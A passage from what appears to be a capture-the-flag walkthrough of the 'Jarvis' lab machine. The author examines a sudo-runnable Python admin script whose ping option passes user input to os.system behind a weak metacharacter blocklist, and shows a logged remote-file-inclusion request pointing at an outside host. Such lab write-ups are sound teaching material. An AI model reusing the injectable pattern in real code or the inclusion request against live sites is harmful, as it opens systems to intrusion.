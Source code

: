 ```shell
Most Recent: 10.10.14.15 --> 2023-07-28 06:24:59 : GET /index.php?news7[\\\"functions\\\"]=http://blog.cirt.net/rfiinc.txt
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -l
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Attackers
-----------
10.10.14.15 - Attack Level : 3
```

Nothing weird in `-s` and `-l` option.

**However, the `-p` option, we can ping a machine:**
```shell
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.056 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.044 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.058 ms
```

**Source code:**
```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
[...]
if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
    [...]
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    [...]
```
